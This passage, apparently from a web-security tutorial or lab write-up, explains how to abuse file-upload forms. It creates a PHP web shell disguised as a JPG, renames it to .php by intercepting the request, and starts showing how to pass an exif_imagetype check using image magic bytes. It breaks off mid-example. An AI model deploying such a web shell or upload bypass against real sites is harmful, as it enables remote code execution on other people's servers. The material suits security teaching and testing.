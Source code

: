If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

- Create a fake JPG containing php code.

  We’ll be using system() to read our password.

  ```none
  echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  
  ```

- Upload JPG, intercept in Burp/ ZAP and change the extension

  ```none
  <input name="filename" value="o0xn5q93si.jpg" type="hidden">  
  ```

  is changed to

  ```none
  <input name="filename" value="o0xn5q93si.php" type="hidden">  
  ```

#### Simple File Upload - With verifying image type

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

```php
<?php  
...  
  
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
      echo "File is not an image";  
  }  
  
...  
  
?>
```

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

- Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

  ```none
  hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

  -n length         : Interpret only length bytes of Input
  -e format_string  : Specify a format string to be used for displaying data
  ```

  Example:

  ```none
  hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
